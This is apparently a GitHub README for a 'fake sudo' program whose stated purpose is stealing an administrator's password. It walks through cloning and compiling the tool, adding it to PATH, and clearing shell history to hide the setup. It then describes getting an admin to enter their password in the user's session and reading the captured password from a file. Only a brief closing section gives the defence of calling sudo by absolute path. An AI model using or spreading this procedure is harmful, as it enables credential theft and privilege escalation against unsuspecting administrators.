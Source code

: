 # Fake sudo program
Fake sudo to steal admin password

## Prepare your move

### Get the file
```bash
cd
git clone https://github.com/TheRaccoon00/fake_sudo.git
```

### Compile the program
```bash
cd fake_sudo
gcc -o sudo sudo.c
```

### Add it into ENV
```bash
export PATH=$PATH:~/fake_sudo
```

### Clear your screen and your history
```bash
cd
clear
history -c
```

## Let's go
Call your admin system and ask him to install a program (with your user session).

## Get the sudo password
```bash
cat ~/fake_sudo/pass.txt
```

## Security
To avoid that kind of hack, do not use environment variable :
```bash
sudo [command]
```
But prefer use the absolute path
```bash
/usr/bin/sudo [command]
```
